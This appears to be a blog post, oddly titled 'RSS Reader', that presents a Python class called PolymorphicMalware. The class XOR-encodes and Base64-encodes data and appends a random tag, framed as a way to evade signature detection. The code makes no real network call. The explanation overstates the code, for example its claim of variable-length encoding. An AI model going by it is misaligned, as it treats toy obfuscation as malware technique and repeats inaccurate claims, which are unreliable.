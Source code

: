 ```yaml
---
title: RSS Reader
author: gourabdg47
date: 2025-05-03 00:26:00
categories:
  - Information
  - Code
tags:
  - coding
  - python
render_with_liquid: true
---
```



  #### Sample polymorphic code

###### Explanation:

1. **Polymorphism Technique**: The code uses a unique identifier (hash) combined with random numbers to generate a new signature for each communication.
2. **Variable-Length Encoding (VLE)**: Data is encoded using Base64, but the length of the encoded data changes dynamically based on the unique identifier.
3. **Self-Contained Functionality**: The `polymorphic_encode` function modifies the data by appending or pretending variable-length data, making it difficult to detect a consistent signature.

###### Usage

```python
import random
from base64 import b64encode, b64decode

class PolymorphicMalware:
    def __init__(self):
        self.seed = random.randint(1, 1000)
        self.p_code = "XORshift"
    
    def polymorphic_encode(self, data):
        # Generate a unique identifier for each communication
        unique_id = str(hash(f"{self.seed}{random.randint(1, 10000)}")) + random.choice("0123456789")
        
        # Convert data to bytes if it's a string
        if isinstance(data, str):
            data = data.encode('utf-8')
        
        # Perform a simple XOR-based encryption using the seed
        encrypted = bytearray()
        for i, byte in enumerate(data):
            key_byte = (self.seed + i) % 256
            encrypted.append(byte ^ key_byte)
        
        # Encode the encrypted data with base64
        encoded_data = b64encode(encrypted)
        
        # Append a unique signature based on the unique_id
        signature = unique_id.encode('utf-8')[:8]  # Use first 8 bytes of unique_id
        
        # Combine the encoded data with the signature
        result = encoded_data + b':' + b64encode(signature)
        
        return result
    
    def polymorphic_decode(self, encoded_data):
        # Split the encoded data and signature
        parts = encoded_data.split(b':')
        if len(parts) != 2:
            raise ValueError("Invalid encoded data format")
        
        # Extract the encoded data without the signature
        data_part = parts[0]
        
        # Decode the base64 data
        encrypted = b64decode(data_part)
        
        # Perform the reverse XOR operation
        decrypted = bytearray()
        for i, byte in enumerate(encrypted):
            key_byte = (self.seed + i) % 256
            decrypted.append(byte ^ key_byte)
        
        return bytes(decrypted)
    
    def send_data(self, destination_ip, data_to_send):
        # Encode the data before sending
        encoded_data = self.polymorphic_encode(data_to_send)
        print(f"Sending polymorphic data to {destination_ip}")
        return encoded_data
    
    def receive_data(self, encoded_data):
        # Decode the received data
        try:
            original_data = self.polymorphic_decode(encoded_data)
            return original_data
        except Exception as e:
            print(f"Error decoding data: {e}")
            return None


# Example usage
if __name__ == "__main__":
    malware = PolymorphicMalware()
    
    # Test with string data
    test_data = "This is sensitive information"
    print(f"Original data: {test_data}")
    
    # Encode and send
    encoded = malware.send_data("192.168.1.100", test_data)
    print(f"Encoded data: {encoded}")
    
    # Receive and decode
    decoded = malware.receive_data(encoded)
    print(f"Decoded data: {decoded.decode('utf-8')}")
    
    # Verify that each encoding is different
    print("\nVerifying polymorphic nature:")
    for _ in range(3):
        encoded = malware.polymorphic_encode(test_data)
        print(f"New encoded form: {encoded}")

```



> To get in touch with me or for general discussion please visit [ZeroDayMindset Discussion](https://github.com/orgs/X3N0-G0D/discussions) 
{: .prompt-info }
